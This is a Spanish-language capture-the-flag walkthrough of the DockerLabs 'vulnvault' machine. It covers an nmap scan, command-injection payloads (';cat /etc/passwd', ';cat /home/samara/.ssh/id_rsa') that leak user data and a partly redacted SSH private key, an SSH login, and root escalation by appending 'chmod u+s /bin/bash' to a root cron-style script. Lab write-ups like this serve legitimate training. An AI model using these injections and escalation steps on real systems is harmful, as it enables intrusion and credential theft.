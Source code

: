 Maquina `vulnvault` de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Fácil

![docker](./imagenes/docker.png)

# RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- 172.17.0.2 -n --open --min-rate 5000 -Pn -sSVC -A -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Sun Aug 25 18:16:59 2024 as: nmap -p- -n --open --min-rate 5000 -Pn -sSVC -A -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up (0.000083s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f5:4f:86:a5:d6:14:16:67:8a:8e:b6:b6:4a:1d:e7:1f (ECDSA)
|_  256 e6:86:46:85:03:d2:99:70:99:aa:70:53:40:5d:90:60 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Generador de Reportes - Centro de Operaciones
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.08 ms 172.17.0.2

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Aug 25 18:17:10 2024 -- 1 IP address (1 host up) scanned in 10.59 seconds

```

Lo único que se puede ver es que esta el puerto 80 de `apache` y 22 de `openssh`, pero como no hay nada interesante continuaremos con el navegador:

### PUERTO 80:

![80](./imagenes/80.png)

Como vemos parece ser una página de reportes, también podemos subir archivos, pero nada de eso nos sirve ya que luego de probar un rato descubrí esto:

![comando](./imagenes/comando.png)

![output](./imagenes/output.png)

Como vemos, podemos ejecutar comandos de manera remota, por lo que ahora leeremos el archivo `/etc/passwd` para ver que usuarios existen en la máquina, para hacerlo simplemente ejecutamos:

```css
;cat /etc/passwd
```

```css
Reporte: reporte_1724620988.txt

Archivo de reporte: /var/www/html/reportes/reporte_1724620988.txt
Nombre: \
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
samara:x:1001:1001:samara,,,:/home/samara:/bin/bash
```

Como podemos ver hay un usuario `samara`, sabiendo esto podriamos intentar leer la clave privada de ssh del usuario `samara` de la siguiente manera:

```css
;cat /home/samara/.ssh/id_rsa
```

```css
Reporte: reporte_1724621080.txt

Archivo de reporte: /var/www/html/reportes/reporte_1724621080.txt
Nombre: \
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAACFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAgEA9HEXYsEOUt5PUH/2fHI/buNxluV3x2qL6wATg0scjIeog9LSmW3k
K3NLw5yDON2vEfZxRSuEkUd743i2AZq/gekNEpvuUTnruRTibz/hZojm8CBpjgXccJW63a
ksBBS/G8iqTa4i9l9GFF0ytuGJ5CmAQy37dgNfsP015OrlN8jg56rtbUyR9kfscYU8R/B0
GDUo60Ek9kzv6QXzkVf/lmnKlVO/4ioJ5iEyL1z91NxBHsOWNQBCjry3kOYDynRD5mKj/g
2OZ/TWpTh/QylyKFfDQYPrbjXXWEe8nnzmoDolKtWvez0Sjig7TBV0z2swcvIuWoxwNFVL
0j/FnwkwYihlbLWi9Gu6ZeddY2+5RfZPRSZrd0+yOvUqHtZHBMBM5nMVyHoh78QyW8bA/q
K93VoLNrf8o19YyZoeNqVP03PE/sSE953JahsHr2iPyNb3q/Hgm+1mn5zL8e++oThK/s43
GeaCpew8JbRf1mD6lkfNZEhAQ2TXvtKRwvWmLxSYmExqgzXD7/XP/ZLUKNO+hQByu+l+VG
......................................................................
-----END OPENSSH PRIVATE KEY-----
```

# INTRUSION

Ahora simplemente lo copiamos y lo metemos en un archivo llamado `id_rsa` en nuestra maquina local. Luego le damos permisos de ejecución con `chmod 600 id_rsa` y nos conectamos mediante ssh de la siguiente manera:

```css
ssh -i id_rsa samara@172.17.0.2
```

# ESCALADA DE PRIVILEGIOS

### SAMARA

Siendo el usuario samara vemos un mensaje de root que no contiene nada interesante, luego de buscar un rato se me ocurre usar `pspy` para ver si hay algún proceso oculto, para eso simplemente hacemos un wget desde la maquina victima a [pspy](https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64), le damos permiso con `chmod +x pspy64` y lo ejecutamos con `./pspy64`. 

```css

     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2024/08/25 23:31:32 CMD: UID=0     PID=626428 | /bin/bash /usr/local/bin/echo.sh 
2024/08/25 23:31:32 CMD: UID=1001  PID=625471 | ./pspy64 
2024/08/25 23:31:32 CMD: UID=1001  PID=463266 | -bash 
2024/08/25 23:31:32 CMD: UID=1001  PID=463232 | sshd: samara@pts/0 
2024/08/25 23:31:32 CMD: UID=0     PID=462917 | sshd: samara [priv] 
2024/08/25 23:31:32 CMD: UID=33    PID=134146 | /usr/sbin/apache2 -k start 
2024/08/25 23:31:32 CMD: UID=33    PID=42     | /usr/sbin/apache2 -k start 
2024/08/25 23:31:32 CMD: UID=33    PID=41     | /usr/sbin/apache2 -k start 
2024/08/25 23:31:32 CMD: UID=33    PID=40     | /usr/sbin/apache2 -k start 
2024/08/25 23:31:32 CMD: UID=33    PID=39     | /usr/sbin/apache2 -k start 
2024/08/25 23:31:32 CMD: UID=33    PID=38     | /usr/sbin/apache2 -k start 
2024/08/25 23:31:32 CMD: UID=0     PID=33     | /usr/sbin/apache2 -k start 
2024/08/25 23:31:32 CMD: UID=0     PID=15     | sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups 
2024/08/25 23:31:32 CMD: UID=0     PID=1      | /bin/sh -c service ssh start && service apache2 start && while true; do /bin/bash /usr/local/bin/echo.sh; done 
2024/08/25 23:31:32 CMD: UID=0     PID=626434 | /bin/bash /usr/local/bin/echo.sh
```

Como vemos hay un script que se ejecuta con bash:

```css
2024/08/25 23:31:32 CMD: UID=0     PID=626434 | /bin/bash /usr/local/bin/echo.sh
```

Ahora simplemente lo editamos con nano y agregamos la siguiente linea al final:

```css
chmod u+s /bin/bash
```

lo guardamos con `ctrl+o` presionamos enter y `ctrl+x` y listo, ahora simplemente ejecutamos `bash -p` y listo, *ya somos root*.

![root](./imagenes/root.png)

Gracias por leer, chau.